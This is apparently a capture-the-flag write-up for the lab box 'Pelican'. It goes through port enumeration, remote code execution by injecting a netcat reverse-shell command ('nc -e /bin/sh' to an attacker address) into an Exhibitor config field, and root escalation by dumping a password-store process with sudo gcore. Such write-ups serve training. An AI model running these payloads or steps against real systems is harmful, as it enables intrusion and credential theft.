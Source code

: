 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Executing a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.126.98
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 04:14 EST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 04:15 (0:00:02 remaining)
Nmap scan report for 192.168.126.98
Host is up (0.025s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp open  http        Jetty 1.0
8081/tcp open  http        nginx 1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.75 seconds
```

## port 139,445 (`smb`)
> No shares available.
{: .prompt-danger }

## port 631 (`cups`)
> No vulnerability found for `cups 2.2`
{: .prompt-danger }

## port 8080 (`jetty`)
Responds with a `404` message.

## port 8081 (`nginx`)
`Exhibitor for ZooKeeperv 1.0` is installed on this web server.

---

# exploitation
## looking for an exploit
```bash
$ searchsploit exhibitor                                                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution                                                                                                                                                            | java/webapps/48654.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
`Exhibitor Web UI 1.7.1 - Remote Code Execution` seems promising.  
Relevant steps to exploit the vulnerability via a browser.  
  
`java/webapps/48654.txt` excerpt
```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

## exploit
### start listener on attacker machine
```bash
$ nc -lvp 8081                                    
listening on [any] 8081 ...
```

### trigger rce
As described in the exploit above set the `java.env` field to the value `$(/bin/nc -e /bin/sh 192.168.49.126 8081 &)`.  
Now commit and wait.

### catch connection from targer
```bash
$ nc -lvp 8081                                    
listening on [any] 8081 ...
192.168.126.98: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.98] 51396
whoami
charles
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
cd /home 
ls
charles
cd charles
ls
local.txt
cat local.txt
2******************************b
```

## privilege escalation

Check which commands we can execute with `sudo` as user `charles`.
```bash
charles@pelican:~$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```
`gcore` can be used with super user permissions.
Checking [gtfobins](https://gtfobins.github.io/gtfobins/gcore/#sudo) reveals that `gcore` allows to dump processes.  
The next step is to dump a `root` process which might contain passwords.  

> Unfortunately no user is logged in via `ssh` (this would allow catching the submitted password)
{: .prompt-danger }

Lets have a look which proccesses are running and are executed as `root`.

```bash
charles@pelican:~$ ps -ef | grep root
ps -ef | grep root
root         1     0  0 04:08 ?        00:00:00 /sbin/init
root         2     0  0 04:08 ?        00:00:00 [kthreadd]
root         3     2  0 04:08 ?        00:00:00 [rcu_gp]
...
root       495     1  0 04:08 ?        00:00:00 /usr/bin/password-store
...
```

`/usr/bin/password-store` looks interesting.
{: .prompt-info }

Dump process with `gcore`
```bash
charles@pelican:~$ sudo gcore 495
sudo gcore 495
0x00007f50a9fce6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffccf6689b0, remaining=remaining@entry=0x7ffccf6689b0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.495
[Inferior 1 (process 495) detached]
charles@pelican:~$ strings core.495
strings core.495
CORE
password-store
/usr/bin/password-store 
...
001 Password: root:
ClogKingpinInning731
...
```
> We found `root` credentials: `root:ClogKingpinInning731`!
{: .prompt-info }

```bash
charles@pelican:~$ su root
su root
Password: ClogKingpinInning731

root@pelican:/home/charles#
```

> `root` access!
{: .prompt-info }

## second flag
```bash
root@pelican:/home/charles# cd /root
cd /root
root@pelican:~# ls
ls
Desktop    Downloads  Pictures   Public     Videos
Documents  Music      proof.txt  Templates
root@pelican:~# cat proof.txt
cat proof.txt
f******************************8
```

Pwned! <@:-)
